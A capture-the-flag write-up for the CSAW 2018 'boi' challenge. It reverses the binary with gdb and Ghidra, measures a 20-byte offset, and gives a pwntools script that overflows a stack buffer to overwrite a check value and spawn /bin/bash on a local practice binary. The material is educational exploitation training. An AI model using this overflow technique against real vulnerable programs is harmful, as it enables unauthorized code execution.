 # Csaw18 Boi

When I ran the binary I saw the prompt "Are you a big boiiiii??". When I typed "yes" in the buffer, the binary output a formated date and time:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable/Boi$ ./boi
Are you a big boiiiii??
yes
Sun  7 Sep 00:50:32 BST 2025
```
Taking a step back I checked how the binary is compiled using the file command and checksec:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable/Boi$ file ./boi && checksec ./boi
./boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
[*] '/home/root-at-iyn/Nightmare/BufferOverflow/Variable/Boi/boi'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

From the output it looks like we have a 64bit ELF with a stack canary and non-execuatable stack but no PIE. The binary is not stripped so I ran it through gdb and disassembled main:

```bash
gef➤  disass main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:	push   rbp
   0x0000000000400642 <+1>:	mov    rbp,rsp
   0x0000000000400645 <+4>:	sub    rsp,0x40
   0x0000000000400649 <+8>:	mov    DWORD PTR [rbp-0x34],edi
   0x000000000040064c <+11>:	mov    QWORD PTR [rbp-0x40],rsi
   0x0000000000400650 <+15>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400659 <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040065d <+28>:	xor    eax,eax
   0x000000000040065f <+30>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000400667 <+38>:	mov    QWORD PTR [rbp-0x28],0x0
   0x000000000040066f <+46>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000400677 <+54>:	mov    DWORD PTR [rbp-0x18],0x0
   0x000000000040067e <+61>:	mov    DWORD PTR [rbp-0x1c],0xdeadbeef
   0x0000000000400685 <+68>:	mov    edi,0x400764
   0x000000000040068a <+73>:	call   0x4004d0 <puts@plt>
   0x000000000040068f <+78>:	lea    rax,[rbp-0x30]
   0x0000000000400693 <+82>:	mov    edx,0x18
   0x0000000000400698 <+87>:	mov    rsi,rax
   0x000000000040069b <+90>:	mov    edi,0x0
   0x00000000004006a0 <+95>:	call   0x400500 <read@plt>
   0x00000000004006a5 <+100>:	mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:	cmp    eax,0xcaf3baee
   0x00000000004006ad <+108>:	jne    0x4006bb <main+122>
   0x00000000004006af <+110>:	mov    edi,0x40077c
   0x00000000004006b4 <+115>:	call   0x400626 <run_cmd>
   0x00000000004006b9 <+120>:	jmp    0x4006c5 <main+132>
   0x00000000004006bb <+122>:	mov    edi,0x400786
   0x00000000004006c0 <+127>:	call   0x400626 <run_cmd>
   0x00000000004006c5 <+132>:	mov    eax,0x0
   0x00000000004006ca <+137>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004006ce <+141>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004006d7 <+150>:	je     0x4006de <main+157>
   0x00000000004006d9 <+152>:	call   0x4004e0 <__stack_chk_fail@plt>
   0x00000000004006de <+157>:	leave
   0x00000000004006df <+158>:	ret
End of assembler dump.

```

## Reversing

- The first argument to main ends up in rbp-0x34, and the second argument in rbp-0x40
- A value from the fs (0x28) is copied to rax and ends up in rbp-0x8 (stack cookie)
- rbp-0x30, rbp-0x28, and rbp-0x18 are set to 0x0. The mov instruction used was of type PTR, so 8 bytes of 0x0 will be assigned to rbp-0x30 and rbp-0x28. 4 0x0 bytes will be assigned to rbp-0x18.
- rbp-0x1c is set to 0xdeadbeef
- We see a call to puts with an arg of 0x400764
- A call to `read` is made at main<+95> with the first arg 0x0 (fd), second arg rbp-0x30 (buff), 3rd arg 0x18 (24 bytes). The number of bytes read is returned to rbp-0x30.
- After the call to read rbp-0x1c (0xdeadbeef) is compared 0xcaf3baee. If it is not equal we jump to main<+122> where 0x400786 is given as an argument to run_cmd.
- If the comparison was equal then 0x40077c is given as an argument to run_cmd

I checked the disassembly in ghidra to to see if I was on the right path: 

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined4 local_28;
  int iStack_24;
  undefined4 local_20;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0;
  local_30 = 0;
  local_20 = 0;
  local_28 = 0;
  iStack_24 = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&local_38,0x18);
  if (iStack_24 == -0x350c4512) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```

So it looks like the main part of the program we neeed to solve is changing iStack_24 (rbp-0x1c) to match 0xcaf3baee. If we can set this value then we'll get the program to run `/bin/bash`. The first thing I wanted to check is where my input would land on the stack. I think rbp-0x30 will likely be a pointer to where the input char array is stored. We can verify this in gdb. I'll send 23 A's and a newline character as input then inspect the stack. In gdb I'll break at main<+103>. Its also worth mentioning, the reason why I'm using 24 bytes as input is because the call to read has a size of 24 bytes (0x18)

```bash
gef➤  b *main+103
Breakpoint 1 at 0x4006a8
gef➤  r
Starting program: /home/root-at-iyn/Nightmare/BufferOverflow/Variable/Boi/boi
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Are you a big boiiiii??
AAAAAAAAAAAAAAAAAAAAAAA
```
```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xa414141         
$rbx   : 0x0               
$rcx   : 0x00007ffff7d147e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18              
$rsp   : 0x00007fffffffdf00  →  0x00007fffffffe058  →  0x00007fffffffe38a  →  "/home/root-at-iyn/Nightmare/BufferOverflow/Variabl[...]"
$rbp   : 0x00007fffffffdf40  →  0x0000000000000001
$rsi   : 0x00007fffffffdf10  →  "AAAAAAAAAAAAAAAAAAAAAAA\n"
$rdi   : 0x0               
$rip   : 0x00000000004006a8  →  <main+0067> cmp eax, 0xcaf3baee
$r8    : 0x0               
$r9    : 0x00000000006022a0  →  "Are you a big boiiiii??\n"
$r10   : 0x00007ffff7c065e8  →  0x000f001200001a64
$r11   : 0x246             
$r12   : 0x00007fffffffe058  →  0x00007fffffffe38a  →  "/home/root-at-iyn/Nightmare/BufferOverflow/Variabl[...]"
$r13   : 0x0000000000400641  →  <main+0000> push rbp
$r14   : 0x0               
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf00│+0x0000: 0x00007fffffffe058  →  0x00007fffffffe38a  →  "/home/root-at-iyn/Nightmare/BufferOverflow/Variabl[...]"	 ← $rsp
0x00007fffffffdf08│+0x0008: 0x0000000100000000
0x00007fffffffdf10│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAA\n"	 ← $rsi
0x00007fffffffdf18│+0x0018: "AAAAAAAAAAAAAAA\n"
0x00007fffffffdf20│+0x0020: "AAAAAAA\n"
0x00007fffffffdf28│+0x0028: 0x0000000000000000
0x00007fffffffdf30│+0x0030: 0x0000000000000000
0x00007fffffffdf38│+0x0038: 0xd41e5fac92e61b00
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069b <main+005a>      mov    edi, 0x0
     0x4006a0 <main+005f>      call   0x400500 <read@plt>
     0x4006a5 <main+0064>      mov    eax, DWORD PTR [rbp-0x1c]
 →   0x4006a8 <main+0067>      cmp    eax, 0xcaf3baee
     0x4006ad <main+006c>      jne    0x4006bb <main+122>
     0x4006af <main+006e>      mov    edi, 0x40077c
     0x4006b4 <main+0073>      call   0x400626 <run_cmd>
     0x4006b9 <main+0078>      jmp    0x4006c5 <main+132>
     0x4006bb <main+007a>      mov    edi, 0x400786
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a8 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a8 → main()

```

We can see a snapshot of the registers, stack and disassembly. The program is at the breakpoint before the `cmp` instruction which will compare the contents of rbp-0x1c and 0xcaf3baee. If we inspect the stack now and look at rbp-0x1c, we'll see that we have overwritten the original value:

```bash
gef➤  x/a $rbp-0x1c
0x7fffffffdf24:	0xa414141
```
```bash
gef➤  x/10gx $rsp
0x7fffffffdf00:	0x00007fffffffe058	0x0000000100000000
0x7fffffffdf10:	0x4141414141414141	0x4141414141414141
0x7fffffffdf20:	0x0a41414141414141	0x0000000000000000
0x7fffffffdf30:	0x0000000000000000	0xd41e5fac92e61b00
0x7fffffffdf40:	0x0000000000000001	0x00007ffff7c29d90
```
So from this output we can see that we need 20 bytes (0x7fffffffdf24 - 0x7fffffffdf10) to reach rbp-0x1c. I'll write a python script to send the 20 bytes and append it with 0xcaf3baee.

```python
from pwn import * 

target = process("./boi")

payload = b"A" * 20 + p32(0xcaf3baee)

target.send(payload)

target.interactive()

```

When we run the file we see that have bash shell access: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable/Boi$ python3 exploit_boi.py 
[+] Starting local process './boi': pid 35769
[*] Switching to interactive mode
Are you a big boiiiii??
$ 
$ id
uid=1000(root-at-iyn) gid=1000(root-at-iyn) groups=1000(root-at-iyn),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)

```

